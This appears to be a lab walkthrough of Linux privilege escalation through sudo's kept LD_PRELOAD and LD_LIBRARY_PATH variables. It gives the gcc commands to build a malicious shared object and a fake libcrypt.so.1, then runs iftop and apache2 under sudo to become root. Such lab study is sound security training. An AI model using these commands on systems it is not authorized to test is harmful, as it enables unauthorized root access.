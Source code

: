 # Task 7 - Sudo Environment Variables

sudo -l

```
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```
## Abusing LD_PRELOAD

LD_PRELOAD is an environment variable that says “Whenever you look for a function name, look in me first!“.

NOw let's create a shared object using the code at /home/user/tools/sudo/preload.c.
Let's compile it

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Now we can choose any of the above 11 programs. Let's take iftop

`sudo LD_PRELOAD=/tmp/preload.so iftop`

Now we are in as root!! IN preload.c, the `setresuid()` sets the real user id, effective user id and saved set user id to 0 i.e) root. And we load preload.so in LD_PRELOAD and since we have sudo permissions on iftop we are root.

## LD_LIBRARY Method

ldd /usr/sbin/apache2

**NOTE: ldd prints shared objects requires by each program**

```
	linux-vdso.so.1 =>  (0x00007fff4a9dd000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f838e752000)
	libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f838e52e000)
	libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f838e2f4000)
	libpthread.so.0 => /lib/libpthread.so.0 (0x00007f838e0d8000)
	libc.so.6 => /lib/libc.so.6 (0x00007f838dd6c000)
	libuuid.so.1 => /lib/libuuid.so.1 (0x00007f838db67000)
	librt.so.1 => /lib/librt.so.1 (0x00007f838d95f000)
	libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f838d728000) => we'll abuse this
	libdl.so.2 => /lib/libdl.so.2 (0x00007f838d523000)
	libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f838d2fb000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f838ec0f000)
```

Let's create the same libcrypt.so.1 using the code at `/home/user/tools/sudo/library_path.c`.

```
gcc -o /tmp/libcrypt.so.1 -fPIC -shared /home/user/tools/sudo/library_path.c 
sudo LD_LIBRARY_PATH=/tmp apache2 => We are root!!
```
